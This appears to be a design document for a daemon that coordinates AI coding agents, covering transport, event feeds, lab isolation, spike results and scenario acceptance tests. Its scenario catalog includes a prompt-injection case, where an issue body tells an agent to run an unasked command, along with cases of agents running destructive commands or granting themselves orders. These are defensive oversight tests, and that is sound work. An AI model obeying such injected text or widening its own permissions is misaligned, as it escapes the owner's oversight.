   lives only in the daemon's memory and the forwarder's arguments, and a new
   one is made for every forwarder start. The OpenRouter key (PR 7) is read
   from the switchboard's config and never passed to an agent.
8. **Deleting the state directory is safe.** It loses the audit history and
   reminders not yet due. Nothing else changes (`decisions.json` is written again
   by the next pass).
9. **The policy judge only tightens** (PR 9). It can turn allow into ask or
   deny, and ask into deny, never the reverse; when it can't answer, the
   configured outcome stands.

### Key flows

**A worker finishes.** The coder's turn ends, and what happens next depends on
whether you are talking to its orchestrator.



Every write in this flow is audited before and after.

**A delivery is held.** v2 is unreachable, or the agent is blocked or gone:
nothing is sent, every hold is audited with its reason, and after 15 minutes
you get a toast.

### Failure handling

| Failure | Behaviour |
|---|---|
| v2 service down | No deliveries; facts stay derivable; toast after 15 minutes; `status` shows it |
| herdr down | No status events and no status for v2 panes. Turn ends are still seen through v2 on the 60 s pass; badges and toasts resume when herdr returns |
| Daemon down | `send` still works, because it delivers itself. Worker and reminder facts are delivered after the restart, because they are derived from state. GitHub events older than the look-back window are lost, and `status` says so |
| GitHub forwarder exits | Restarted with backoff, then one catch-up read covers the gap. Repeated failure shows in `status`, with a toast |
| `Hook already exists` (someone else is forwarding that repo) | Watch marked as a conflict; catch-up reads on a long interval until it clears; toast |
| Pane closed or session gone | The agent drops out of herdr's list; items for it are held; toast |

### The link to the OpenCode service: HTTP, and backpressure (owner order)

The daemon must be cheap and must never make the service worse. `opencode api <operation>` starts a whole process per call (0.13 to 1.5 s measured against the live service, many agents and long histories); the same call over HTTP takes 5 to 17 ms and returns identical JSON.

- **Transport.** The service writes its address and password to `<state>/opencode/service.json` (mode 0600; `$XDG_STATE_HOME`, else `~/.local/state`). `V2Client` reads it, talks to the loopback address with Basic auth (`opencode:<password>`), keeps ONE connection alive for reads, and uses a fresh connection per write. The operation table (`V2_HTTP_OPERATIONS`) was read from the service's own `/openapi.json` (OpenCode 2.0.24). Anything the table does not know, a stale service file (its pid is gone), a non-loopback address, a refused connection or a password refused twice goes through `opencode api` instead (which also starts a stopped service, so the fallback is the recovery). A write that may have reached the service is **never replayed** and never re-sent through the CLI: it fails with `unavailable` (state unknown), as before. A timeout is a timeout, not a reason to ask again. A reply over 16 MB is refused, and a transcript page is at most 500 messages (the engine reads 200, up to 5 pages). **The service file is opened with `O_NOFOLLOW` (a symlink is refused), must be a regular file owned by the user with no group or other bits, and its directory must be the user's own and closed to others. Only the immediate parent directory is checked (not its ancestors). A call has a TOTAL deadline (the call timeout) shared by the request, the status line, the headers and the body, not one per socket operation. The password is sent only to a literal loopback address (`127.0.0.1` or `::1`; a name is refused because it is resolved at connect time), only from a service file that is the user's own and private, and is never logged, audited, printed or put in an error.** Residual risk, stated: it travels in cleartext Basic auth to whatever process holds that loopback port, so another process of the same user that took the port could read it; the file's pid is checked for life, not identity. One request is in flight on the route at a time (reads and writes share one lock), so an essential write can wait behind a slow read for up to the call timeout. Only a real run uses the route (a fake runner stands for the CLI). **Kill switch:** the config key `"v2_transport": "cli"` (default `"auto"`) makes every call go through `opencode api` as before, and so does `FLEET_SWITCHBOARD_V2_CLI=1` in the environment.
- **Backpressure.** `V2Breaker` times every call. It opens when the p95 of the last 20 calls is over 8 s (at least 8 samples) or 3 calls in a row time out; then OPTIONAL reads are skipped with a `backoff` error (no process, no request; the callers already hold on a v2 error), for 10 s doubling to 300 s, while writes and the reads a delivery or a blocked worker needs always go on (`session.get`, which discovery and the re-check before each write use; `session.inbox.list`; the permission and form lists; the `synthetic` message read the delivery rule uses): it fails open for a wake on purpose. What waits is the rest: `session.active`, `session.list`, `server.info` and an ordinary transcript read (a worker's last reply). After the wait it lets ONE probe through at a time; a slow probe doubles the wait, 3 good probes close it. The audit gets one `v2.backoff` per episode (and `v2.resume`), not one per skipped read, and `status` shows a `v2-link:` line (route, fallbacks to the CLI, breaker, p95) from `v2-link.json`, written by the daemon at most once a minute or when the breaker changes. **One call record:** the client's single record of calls (operation and time, from the call accounting) also carries the transport of each call (`http`, `cli`, or `cli-fallback`: the CLI after the HTTP route could not serve it); `v2-calls.json` and the `v2 calls` status line show `by transport`. A call skipped by the breaker was never sent and is not counted. Under the test suite a real run is refused before either route is reached.
- **Not changed:** what is asked of the service (call sites: how many calls per pass, which reads) belongs to the call-volume work; this is only how a call travels and what happens when the service is slow.

### The event feed (#290, slice 2)

The daemon used to learn what happened in a session by reading its history on a timer. The service pushes the news instead: `GET /api/event` is ONE global server-sent stream. The feed (`EventFeed`) subscribes to it on one dedicated thread, over the HTTP route above (the service file and password stay inside `V2Http`; `opencode api` cannot carry a stream: it buffers the response until it closes, measured 0 bytes in 30 s), keeps a dozen event types and remembers, per session, which assistant message the events announced and when a turn last ended (ids of at most 128 characters; at most 500 sessions). The thread reads a line, filters and remembers; it makes no v2 call and writes nothing. **An event's text is never kept or used**: it can be partial or stale, so a finished turn's summary still comes from a fresh `limit=1` read, exactly as before.

- **It costs no v2 call until a reader needs it.** This slice only OBSERVES: with no registered consumer (`feed.need(name)`; none registers yet: the readers that will are slices 3-5) the feed makes NO read at all, not at a (re)connect and not on a timer. `status` shows what it heard. Counting on the fake (20 idle sessions, a connected quiet stream, 30 simulated minutes of 5 s passes): no consumer 0 reads; with one consumer 60 (one resync read per session, then at most one reconcile read per session per 10 minutes).
- **It is a hint, not a ledger.** By the service's own contract the stream is volatile: a slow consumer overflows and events while disconnected are missed. So once a consumer needs it: a decision to write still reads fresh (PC-2); every OPENED connection marks a gap (a service that is down opens nothing, so it costs nothing and writes nothing) and the next passes make ONE bounded read per session (the newest assistant message), at most 4 sessions per pass, none read again within 2 minutes however often the stream flaps (`event.resync` in the audit per pass); a periodic reconciliation (also in a pass that resyncs) reads at most one message per session per 10 minutes (at most 2 sessions per pass) and says `event.missed` when an assistant message landed that a session's events never announced. The service sends no keep-alive, so a stream quiet for 30 minutes is closed by the daemon and opened again, and THAT reopen is not a gap (nothing was lost to a drop); any other end is. A response is never read on after a socket timeout. A read that fails (the breaker is open) is counted (`read_errors`) and the session goes to the back of the queue, so a failing few cannot starve the rest. These bounded reads sit outside the `v2_reads_*` budget; the breaker still skips them. A permanently down service costs one connect attempt a minute. With the owner's `v2_light: true` the feed makes no read at all, a read the plugin's push asked for included. `touched_since_read(session)` tells a reader whether an event named the session after it was last read.
- **It is optional.** With the stream down, or `"v2_events": "off"` (default `"auto"`; on only where the HTTP route exists, so never with `v2_transport: cli`, a missing service file or a fake runner), nothing here reads and the daemon runs on its reads as before. `status` shows `events: stream (N heard, M resync, K missed)` or `events: DOWN: old reads` on the `v2 calls` line.
- **The plugin's pushes (slice 6).** The `fleet-hooks` plugin can tell the daemon that something happened in a session: one short JSON line on the daemon's own socket (`judge.sock`, mode 0600), `{"v":1,"kind":"event","event":"prompt"|"compaction"|"idle"|"activity","sessionID":"ses_...","at":<ms>,"person":bool?,"id":"msg_..."?,"dropped":<n>?}`, at most 2 KB, never prompt text or anything from the environment. The daemon checks every field against a fixed pattern or list, ignores anything else (counted), limits each session to 20 messages a second and all to 100 (the rest dropped and counted, one `event.rate_limited` audit line per change, never queued), and only marks the session: the next pass makes ONE bounded read of it (at most 4 sessions a pass). The plugin never waits for the daemon: a full queue or a missing socket drops the event and the count rides on the next message. `"v2_plugin_events": "off"` (default `"auto"`) turns the receiver off, and then the `session.list` `time.updated` gate is the only signal. The socket is bound for this even when the policy judge is off. **Unverified until the plugin is loaded** (one service restart): the plugin API offers a `compaction` hook but no `prompt` hook, so a person's prompt is pushed only if the in-process event subscription carries it (`message.created` from a user), with the names read from the service binary; a name that does not match pushes nothing.
- **Not in this slice** (plan slices 3-5): the sent-message ledger, the event-gated readers (the delivered-message check, the person's last prompt, the compaction count, the inbox) that register as consumers, and deleting the legacy 200-message reader. `Last-Event-ID` replay was not verified, so none is assumed.

## Lab: isolation from the live fleet

The live fleet stays on v1 throughout.

```mermaid
flowchart LR
  herdr{{"herdr: one server"}}
  subgraph live["Live fleet: unchanged"]
    direction TB
    hb["fleet-heartbeat"] -- "wakes" --> v1["OpenCode v1<br/>installed binary on PATH"]
    v1 --- v1data[("standard config and data dirs<br/>incl. herdr's v1 integration")]
  end
  subgraph lab["Switchboard Lab"]
    direction TB
    sb["fleet-switchboard"] -- "notes and wakes" --> v2["OpenCode v2<br/>pinned, private dir, not on PATH"]
    v2 --- v2data[("scratch XDG dirs<br/>incl. the Copilot login and<br/>herdr's v2 integration")]
    v2 --- repo[("scratch git repo")]
    runner["bin/proof-switchboard<br/>runs scenarios, acts for you"] -- "types only here" --> v2
    v2 --- stub["scripted model<br/>local, for lab-scripted runs"]
  end
  herdr ---|"hosts the panes"| v1
  herdr ---|"hosts the panes"| v2
```

- **v2 binary.** A pinned version, installed into a private directory that is
  not on `PATH`. Never installed with `npm -g` or the curl installer, because
  the installer replaces the v1 binary. Pinned to a version herdr's
  integration works with (S6).
- **v2 data.** Moved into a scratch directory with `XDG_*` variables. A `HOME`
  override is the fallback; XDG is preferred because it leaves git and gh
  identity intact. Checked with `opencode debug paths`.
- **herdr's OpenCode integration.** Installed into the scratch config only.
  The live fleet's integration is not upgraded as a side effect.
- **Panes.** A herdr workspace called "Switchboard Lab", whose environment puts
  the private v2 first on `PATH`.
- **Switchboard config.** Names the v2 binary and its environment.
- **herdr plugin.** Linked to the single herdr server. The switchboard only
  manages sessions that carry fleet metadata.
- **Models.** GitHub Copilot, through a one-time device login inside the
  scratch profile, for lab-model runs. A local scripted model, registered as a
  provider in the scratch config, for lab-scripted runs. Real credentials are
  never read or copied.
- **Scenario runner.** `bin/proof-switchboard` launches each scenario's cast in
  the Lab, acts for you there, and tears the cast down afterwards. It types
  only into panes of the "Switchboard Lab" workspace.
- **Work.** A local scratch git repo. No GitHub until PR 5.
- **The Lab service's port.** A service started from a Lab shell inherits the
  default port of the live service, so it fails with "port already in use" and,
  without a port of its own, a restart could reach the live service. First
  confirm this shell is the Lab: run `opencode debug paths` and check that every
  path is under the Lab root (for example `/home/user/lab`); if any path is
  outside it, stop, because the next command would change the live service.
  Then give the Lab service its own port, before the first start and before any
  restart: `opencode service set port <free port>` (for example
  `opencode service set port 49392`). Also, before any restart, check that the
  service record and the pid it names are inside the Lab root: read them from
  `opencode service status`, or from the service record file under the Lab's
  data directory if status does not show them. If either is outside the Lab
  root, stop.

## Spikes (PR 1)

| # | Spike | Passes when |
|---|---|---|
| S1 | Isolation | Every path from `debug paths` is in scratch; v1 is unchanged; no v1 or v2 state appears outside scratch; herdr's integration installs into the scratch config, not the live one; the kit's agent files load under v2 with the intended permissions |
| S2 | Access | Python can call `opencode api` for create, get, message list and synthetic. A synthetic sent twice with the same derived `id` is admitted once. Also measured: latency; whether `GET /api/event` can stream; whether calling HTTP directly is practical |
| S3 | Note | `resume: false` starts no turn, and the model quotes the note after your next message. Tested with both `delivery` values; TUI visibility recorded. A waiting note switched to `steer` with `session.inbox.update` starts a turn |
| S4 | Wake | With `resume: true` and `queue`: an idle agent starts a turn; a busy agent runs it after the current turn; a draft in the TUI survives both cases |
| S5 | Reading back | Session metadata set at create is returned by `session.get`; a synthetic message's metadata is returned by `session.message.list`; your prompts can be told apart from fleet messages; messages can be read newest first and the read stopped early; a waiting note appears in `session.inbox.list`; `time.idle` and `outcome` are set when a turn ends |
| S6 | herdr | In the Lab: `herdr agent start --kind opencode -- -s <ses>` works; herdr's v2 integration reports working, idle and blocked (forced with a permission prompt) correctly; `agent_session` names the session; the `unread` token shows in the sidebar; plugin link and `[[startup]]` work |
| S7 | Scripted model | The Lab's v2 accepts a local OpenAI-compatible provider; a scripted agent runs a shell command, asks a permission, and replies on cue, with streaming; herdr's status follows it as it would a real model |

**Results (2026-10-02, OpenCode v2 2.0.22, herdr 0.9.3, scripted model):**

| # | Verdict | What was found |
|---|---|---|
| S1 | Pass | v2 is confined by `XDG_CONFIG_HOME`, `XDG_DATA_HOME`, `XDG_STATE_HOME`, `XDG_CACHE_HOME`, plus `TMPDIR` and `HOME` for its last two paths. The Lab calls v2 only through a wrapper that sets these and strips credentials from the environment. v2's default database and log paths are the same files v1 uses. herdr's integration install ignores `XDG_CONFIG_HOME` and needs `HOME` pointed at the Lab. Lab sessions under the home directory can still read the user's skill folders; see [#16](https://github.com/adamkaplan/fleet-kit/issues/16) |
| S2 | Pass | Each `opencode api` call takes 60–160 ms. Path parameters are `--param name=value`; bodies are inline `-d` JSON. A repeated synthetic id is admitted once. Events stream only over direct HTTP |
| S3 | Pass, with corrections | A note starts no turn with either delivery. Only `steer` makes it ride with your next message; `queue` delivers it after the reply and starts a model call. A waiting steer note can't be updated to steer, so a note becomes a wake through `queue` then `steer`. The TUI shows neither |
| S4 | Pass | An idle wake starts a turn in 0.06 s; a busy wake runs after the final reply, never between steps. A half-typed draft in the TUI survived an idle wake, a busy wake and a permission prompt |
| S5 | Pass | Session and message metadata round-trip exactly. Your prompts are type `user` without `metadata.fleet`. Reading newest first with a limit works. `time.idle` and `outcome` change on every turn |
| S6 | Pass for PR 1's scope | herdr reported working, blocked (0.06 s after a permission ask) and done; `agent_session` names the session; the `unread` token is readable. A login shell's PATH put v1 ahead of the Lab's v2, so `launch` must start v2 by absolute path and check it. Plugin link and `[[startup]]` move to PR 3 |
| S7 | Pass | The scripted model, registered as an OpenAI-compatible provider, streams replies, runs a shell tool call, and asks a permission; herdr's status follows it |

S2–S7 are scenario files tagged `spike` (PR 2), run by
`bin/proof-switchboard run`, so they can be re-run on every v2 or herdr
upgrade.

**Stop rule.** If S3 or S4 fails, work stops and we decide together before
PR 2. No fallback is built ahead of time. If S7 fails, lab-scripted runs fall
back to cheap real models with tightly scripted prompts, and scenarios with
exact timing move to the offline tier.

## Scenario testing

Every behaviour the switchboard promises is written down as a scenario, and
every scenario is run against the Lab. Scenarios are the acceptance tests of
the stack: a PR is ready only when every scenario up to it passes, offline in
CI and in the Lab, and each scenario's control fails.



### What a scenario is

A JSON file in `scenarios/switchboard/`. JSON because the kit is stdlib-only
Python 3.9. It has five parts:

- **Cast:** the agents, each with a role, `reports_to`, and the issue it works
  on.
- **Issues:** the charter, asks and work items, with their Intent lines.
- **Steps:** timed actions by you (type a draft, send a message, go away), by
  agents (a turn that lasts 30 s, a permission request), and by the world (a
  GitHub comment, a killed daemon, a closed pane).
- **Expectations:** what must and must not happen, each checked against the
  system that owns the fact.
- **Control:** the safeguard the scenario proves, and how to switch it off.
  With the safeguard off, the scenario must fail.

An example, shortened:

```json
{
  "id": "N1",
  "title": "A worker finishes while you are talking to its orchestrator",
  "problem": 3,
  "since_pr": 4,
  "tiers": ["offline", "lab-scripted"],
  "cast": {
    "platform": {"role": "orchestrator", "charter": 1},
    "coder": {"role": "coder", "reports_to": "platform", "issue": 2}
  },
  "issues": {
    "2": {"intent": "Add a health check", "done_when": "GET /health returns 200"}
  },
  "steps": [
    {"at": "0s", "actor": "coder", "do": "turn", "lasts": "30s"},
    {"at": "10s", "actor": "you", "do": "message", "to": "platform", "text": "status?"},
    {"at": "150s", "actor": "you", "do": "message", "to": "platform", "text": "and next?"}
  ],
  "expect": [
    {"that": "delivered", "to": "platform", "key": "worker.idle:coder:*", "mode": "note", "count": 1},
    {"that": "no_machine_turn", "agent": "platform"},
    {"that": "message_has_intent", "to": "platform", "issue": 2}
  ],
  "control": {"fault": "no-engagement-gate", "fails": ["no_machine_turn"]}
}
```

### Tiers

| Tier | Runs | Agents | Clock | Used for |
|---|---|---|---|---|
| offline | `bin/test-switchboard`, in CI on every push | Fakes of herdr, v2 and GitHub | Simulated, so a 2-hour scenario takes milliseconds | Every scenario: the delivery rule, derivation, the invariants |
| lab-scripted | `bin/proof-switchboard run`, in the Lab | Real v2 and herdr, driven by a scripted model | Real | Anything that depends on how v2 or herdr really behave: drafts, delivery modes, status events, restarts |
| lab-model | `bin/proof-switchboard run --models`, in the Lab | Real v2 and herdr, with Copilot models | Real | Behaviour that depends on the model: checking reports against Done-when, writing handoff briefs, acting on decorations |

**The scripted model.** For lab-scripted runs, `bin/proof-switchboard` starts a
small local server that speaks the OpenAI chat-completions protocol, streaming
included, and plays back each agent's script: "run `sleep 30`, then reply
DONE", "ask permission to edit a file". The Lab's v2 config registers it as a
provider (verify S7). Agents then behave the same way on every run and cost
nothing, while v2 and herdr are the real thing.

**You, simulated.** The runner acts for you through herdr. It types into Lab
panes (`pane send-text` for a draft, `agent prompt` for a message) and reads
them back. The runner is the only fleet code allowed to type into a pane, and
only into panes in the "Switchboard Lab" workspace. A hygiene test checks that
`bin/fleet-switchboard` never calls those commands.

**Oracles.** Expectations are checked against the systems that own the facts,
never against the switchboard's own account of what it did.

| Expectation | Checked with |
|---|---|
| `delivered`, `count` | The recipient's transcript: synthetic messages and their `metadata.fleet.keys` |
| `no_machine_turn` | The recipient's transcript: no turn whose triggering input is a fleet message |
| `within` | Transcript timestamps against the step's time |
| `draft_intact` | herdr `pane read` of the input box |
| `message_has_intent` | The delivered text against the issue's Intent lines on GitHub, or the fake |
| `classified` | The Jev question and answer in the audit log |
| `handed_off` | The brief comment on the ask, and a session with role `cos-subagent` for that ask |
| `toast` | herdr's reply to `notification show`, recorded in the audit log, because herdr has no API to list toasts |
| `tool_outcome` | v2's permission records and the tool result in the transcript: allowed, asked or denied, and the reason |
| `judged` | For text a model wrote (lab-model only): a Jev yes/no question about one message, such as "does it say plainly that the work failed?", with a threshold. Offline runs use a fake judge |

Every scenario also checks three things implicitly: each external write in its
timeline has an audit entry before and after it (invariant 5); no OpenRouter,
GitHub or OpenCode credential appears in the state directory or the audit log
(invariant 7); and `bin/fleet-switchboard` made no typing call to herdr.

**Controls.** Each scenario names the safeguard it proves, and a control that
removes it:

- **A fault.** The runner sets `FLEET_SWITCHBOARD_FAULT=<fault>`, which
  `bin/fleet-switchboard` honours only when the Lab marker is set, and re-runs
  the scenario. Faults: `no-engagement-gate`, `no-recheck`, `no-dedupe`,
  `steer-not-queue`, `no-batch`, `no-intent-header`, `no-classify`,
  `crash-after-send`, `no-policy-judge`, `judge-loosens`, `no-maxims` (the
  role definitions without their Maxims block), and the PR 15 faults
  `static-repos`, `bare-issue-number`, `one-account` and `repo-create-allowed`
  (see [Many repos](#many-repos-pr-15)).
- **A baseline.** The same scenario run against today's system, for example
  with `fleet-heartbeat` delivering wakes. This shows the scenario catches the
  original problem.

The control must fail on the expectations it names. A scenario whose control
passes proves nothing, and fails the run.

**Runners.** `bin/test-switchboard` runs every offline-tier scenario against
stateful fakes of herdr and v2 that encode the spike-verified behaviour, with a
simulated clock. `bin/proof-switchboard run [paths] [--tier lab-scripted]`
runs the lab-scripted tier: fresh Lab sessions per run and per control, real
time, oracles read from the transcripts, the scripted model's request log,
herdr status and pane reads. Each runner fails the run if a scenario fails or
its control passes.

**Evidence.** Each run writes `scenario-runs/<time>/<id>/`, which is
gitignored: `report.md` with pass or fail per expectation for the run and its
control, and `timeline.jsonl` with the steps, the audit log, transcript
excerpts and pane reads merged by time. Each PR's description carries the
summary table of its runs.

**Spikes stay as scenarios.** S2–S7, SG1, SF1–SF4 and SP1 are kept as lab
scenarios tagged `spike`,
so upgrading v2 or herdr re-runs them before anything else.

**Coverage.** CI fails if a scenario file is invalid, if a scenario has no
control, if any of problems 1–4 has no scenario, or if an invariant is covered
neither by a scenario nor by an implicit check.

### Catalog

Scenarios are added by the PR in their "Since" column, and every later PR must
keep them passing. The earlier live-proof cases A–F are D1, N1, W1, W2, Q1 and
R1.

| ID | Scenario | Problem | Safeguard | Since | Tiers |
|---|---|---|---|---|---|
| D1 | A draft is in the orchestrator's input box when an item arrives | 3 | Never typed | PR 3 | offline (no typing call), lab-scripted; baseline `fleet-heartbeat` |
| W2 | An item arrives in the middle of a turn | 3 | Queue, not steer | PR 2 | offline, lab-scripted |
| B1 | Five events for one agent within 60 s | 3 | Batching | PR 2 | offline, lab-scripted |
| R2 | The daemon crashes between sending and reading back | — | Message id derived from the keys (invariant 3) | PR 2 | offline, lab-scripted |
| N1 | A worker finishes while you are talking to its orchestrator | 3 | Engagement gate | PR 4 | offline, lab-scripted |
| N2 | A note waits 10 minutes with no message from you | 3 | Note converted to a wake | PR 4 | offline, lab-scripted |
| W1 | A worker finishes while you are away | 4 | Worker-done fact | PR 4 | offline, lab-scripted |
| W3 | A worker stops on a permission prompt | 4 | Blocked fact and toast | PR 4 | offline, lab-scripted |
| Q1 | Two hours with no events | 3 | No timer wakes | PR 4 | offline (2 h simulated); the Lab tier is owed: its control is the old timer, which is not built there |
| R1 | The daemon is killed while a worker finishes, then restarted | 4 | Derived pending, dedupe (invariants 1–2) | PR 4 | offline, lab-scripted |
| H1 | A worker's pane is closed between deciding and delivering | — | Re-check before every write (invariant 4); hold and toast | PR 4 | offline, lab-scripted |
| R3 | The state directory is deleted while items are pending | — | Nothing but the audit history and reminders is lost (invariant 8); from PR 14 `decisions.json` is written again | PR 4 | offline, lab-scripted |
| G1 | A comment lands on an ask | 4 | Routing, Intent header | PR 5 | offline; the Lab runner cannot yet post a signed webhook |
| G2 | The forwarder dies while events are sent | 4 | Catch-up read, object-id keys | PR 5 | offline; Lab owed, as G1 |
| G3 | Someone else is already forwarding the repo | — | Conflict reported, fallback | PR 5 | offline; Lab owed, as G1 |
| I1 | An orchestrator reports "one of two fixed" | 1 | Intent header on reports going up | PR 6 | offline, lab-model (the Chief of Staff flags it against Done-when) |
| I2 | An issue has no Intent section | 1 | "No intent recorded" | PR 6 | offline; the Lab has no fake GitHub yet |
| I3 | An Intent is edited on GitHub | 1 | Change surfaced, old → new | PR 6 | offline; Lab owed, as I2 |
| I4 | An orchestrator wants to change an Intent | 1 | Proposes with `send`; only you or the Chief of Staff with your yes change it | PR 6 | lab-model |
| K1 | A worker's fix fails its check | 1 | "Say it failed"; "The last message stands alone": the Chief of Staff's message to you names the failure and its evidence (judged) | PR 6 | lab-model; control `no-maxims` |
| K2 | An orchestrator's report recommends a code change nobody asked for | 1 | "A diagnosis is not a mandate": the Chief of Staff relays it as a finding and asks, rather than authorising the change (judged) | PR 6 | lab-model; control `no-maxims` |
| J1 | The classifier runs in shadow mode | 2 | Logged, never acted on | PR 7 | offline, lab-scripted |
| F1 | An unrelated message while the Chief of Staff is busy | 2 | Classify and hand off | PR 8 | offline, lab-model |
| F2 | A message about the current work | 2 | No split | PR 8 | offline, lab-model |
| F3 | A message about an ask a background subagent owns | 2 | Decoration names the owner; details forwarded | PR 8 | offline, lab-model |
| F4 | A background subagent finishes while you talk to the Chief of Staff | 2 | Note, with the ask's Intent lines | PR 8 | offline, lab-scripted |
| F5 | Jev is unsure, or unreachable | 2 | Defaults to the current work | PR 8 | offline, lab-scripted |
| P1 | An orchestrator runs `gh pr view` and `git log` | — | No friction: the judge leaves harmless calls alone | PR 9 | offline; the Lab tier waits for the plugin to be linked into the Lab |
| P2 | An orchestrator runs a destructive command, such as a force-push | — | Hard to reverse → ask; you get a toast with the reason | PR 9 | offline; as P1 |
| P3 | A worker edits files its ask doesn't cover | — | Outside the Intent → hard deny; the worker escalates instead of retrying | PR 9 | offline, lab-model |
| P4 | An issue body tells the agent to run a command outside its ask | — | The judge only tightens: injected text can't widen what is allowed (invariant 9) | PR 9 | offline; control `judge-loosens`; as P1 for the Lab |
| P5 | Jev is slow or unreachable | — | The configured outcome stands; nothing blocks on the judge | PR 9 | offline; as P1 |
| P6 | A command the configured rules deny | — | Final; the judge is not consulted | PR 9 | offline |
| M1 | A v1 Chief of Staff session is imported | — | Same messages; open asks listed | PR 10 | offline, lab-model |
| R4 | A worker reports done, then stops | 4 | A stop that follows a report is only a rider | PR 13 | offline; control `idle-wakes` |
| R5 | A worker stops with no ask and no report | 4 | A bare idle wakes nobody | PR 13 | offline; control `idle-wakes` |
| R6 | A worker stops without reporting work it owes | 4 | Nudged once, then the boss is told | PR 13 | offline; control `no-nudge-once` |
| R7 | The decision model is down when a worker stops without reporting | 4 | Fails open: one wake | PR 13 | offline; control `no-fail-open` |
| R8 | Progress reports | 4 | Riders never wake, and ride in the next report | PR 13 | offline; control `no-rider` |
| D2 | A label on an issue puts it in your list; taking it off removes it | — | Derived from the label, by webhook, with no `gh` call per pass | PR 14 | offline; control `no-decisions-file` |
| D3 | A worker's `report question` is listed until its boss answers with `send` | — | Resolution is derived from both transcripts | PR 14 | offline; control `decision-resolves-never` |
| D4 | The decisions file is deleted | — | A disposable projection: the next pass writes it again | PR 14 | offline; control `no-decisions-file` |
| D5 | The daemon stops | — | A list older than 180 s is stale, never current | PR 14 | offline; control `stale-as-fresh` |
| D6 | Two repos, an `awaiting-user` issue each with the same number | — | Two decisions, each with its own repo tag (`api#2`, `web#2`) | PR 15 | offline; control `bare-issue-number` |
| M2 | A repo joins the watch when an agent naming it launches, and leaves it when the agent is gone | — | The watched repos are derived on every pass | PR 15 | offline; control `static-repos` |
| M3 | Two repos, two `gh` accounts, the same issue number | — | One account per repo; each agent sees its own repo's Intent and nothing of the other's | PR 15 | offline; control `one-account` |
| M4 | A repo whose account cannot create a webhook | — | Read on a poll; `status` and one toast say so | PR 15 | offline; control: the account may create it |
| M5 | A worker runs `gh repo create` | — | Repo creation is always hard to reverse (deterministic rule) | PR 15 | offline; control `repo-create-allowed` |
| M6 | `launch --new-workspace` with a label the charter does not name | — | Refused before anything is made | PR 15 | offline; control: the label matches |
| E1 | A command that needs the daemon runs while it is dead | — | Ensure on use: the daemon is started first and the fact that waited is delivered | PR 16 | offline; control `no-ensure-on-use` |
| E2 | `bootstrap` is run three times | — | One Chief of Staff: opened once, a second refused naming the one that runs, resumed in a workspace when its pane is gone | PR 16 | offline; the control is a variant that expects a second one |
| E3 | The decision-model key is missing | — | `status` says so in its first line, in plain words | PR 16 | offline; control `key-missing-silent` |
| C2 | An edit to the config file is applied without a restart; a broken edit leaves the daemon running and says so; a fix recovers | — | The daemon reloads its config when the file changes, and never stops on an invalid one | PR 16 | offline; control `config-read-once` |
| O1 | A charter has a standing order | 3 | Every agent of the charter gets it once, at its start, as a note that wakes nobody | PR 17 | offline; control `orders-wake` |
| O2 | An agent's conversation is compacted | 3 | A completed compaction sends the orders again, once; a failed one sends nothing | PR 17 | offline; control `orders-start-only` |
| O3 | The owner adds an order on GitHub | 3 | A new note arrives, and the judge's next question sees the order | PR 17 | offline; control `orders-never-judged` |
| O4 | An orchestrator tries to give itself an order | 1 | Only the Chief of Staff records one; `gh issue edit` of its own charter is stopped by the judge | PR 17 | offline; control `anyone-can-order` |
| O5 | Two repos, two accounts, a charter each with different orders | 3 | Each orchestrator gets only its own repo's orders, in a note keyed with its repo | PR 17 | offline; control `one-account` |
| T1 | An orchestrator's report and `awaiting-cos` label | — | In the Chief of Staff's view and not in yours; `escalate` moves both to yours | PR 18 | offline; control `tier-flat` |
| T2 | The Chief of Staff resolves a decision | — | Both awaiting labels come off and it leaves every list | PR 18 | offline; the control is a variant that escalates instead |
| T3 | An agent blocks on a permission prompt | — | Chief of Staff tier, yours after the 300 s grace; `answer allow` is judged: asked without an order, allowed with one | PR 18 | offline; control `answer-unjudged` |
| T4 | The owner edits the Chief of Staff's orders file | — | A new note arrives, and the judge's next question sees the edit | PR 18 | offline; control `cos-orders-unfed` |
